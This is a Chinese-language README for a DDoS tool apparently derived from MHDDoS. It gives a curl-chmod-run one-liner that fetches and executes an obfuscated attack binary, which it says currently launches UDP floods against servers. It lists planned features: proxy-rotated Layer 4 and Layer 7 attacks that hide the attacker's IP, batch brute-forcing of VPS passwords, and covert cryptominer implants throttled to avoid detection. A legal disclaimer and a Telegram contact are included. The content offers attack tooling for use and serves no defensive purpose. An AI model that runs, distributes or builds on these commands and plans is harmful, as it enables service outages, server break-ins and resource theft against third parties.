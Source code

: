 测试脚本
```
curl -sSL https://raw.githubusercontent.com/seagullz4/Loser-DDos/main/bomb -o bomb && chmod +x bomb && ./bomb
```

暂时只能是x86的服务器运行

暂时只能使用UDP攻击服务器,后续内容正在添加+测试中
(一天加一个内容吧,主要是我没多少🈳)

测试用户请联系我: [@seagullz44](https://t.me/seagullz44)

原项目地址是这个哈,有兴趣的可以去看看: [MHDDoS](https://github.com/MatrixTM/MHDDoS)

# 预计内容
 
1.原有的Layer7 (Website)攻击+Layer4 (Server/Home)基础上优化,以及在线的socks5和socks4和Proxies HTTP的在线获取,更好的通过多种ip打击网站,并隐藏好自己的ip
 
2.暴力破解vps密码,可以默认自定义操作,定时,批量
 
3.对所破解的vps进行植入挖矿程序,可以自定义挖矿的CPU占比,防止用户察觉
 
4.将继续收集其他ddos项目进行优化简介合并
 

本脚本采用的是简单加密,这种加密程度不是很高,但可以防止一些小白同志进行二改贩卖,请勿用于违法犯罪,请下载本脚本1小时后删除,使用本脚本自动同意使用者承担一切风险的原则,与作者无关